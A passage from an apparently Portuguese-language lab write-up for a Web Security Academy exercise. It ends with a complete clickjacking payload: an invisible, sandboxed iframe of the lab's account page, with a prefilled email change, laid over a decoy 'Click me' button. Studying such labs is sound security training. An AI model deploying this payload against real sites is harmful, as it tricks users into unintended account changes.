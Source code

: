 ![botão](buster_botao.png)

No final não podemos esquecer de alterar a opacidade do `iframe` para 0.0001, para que ele fique invisível.

No final teremos o seguinte código:

```html

    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:450;
            left:80;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe sandbox="allow-forms"
    src="https://0abc001d038ec2c4c20785150054003e.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```
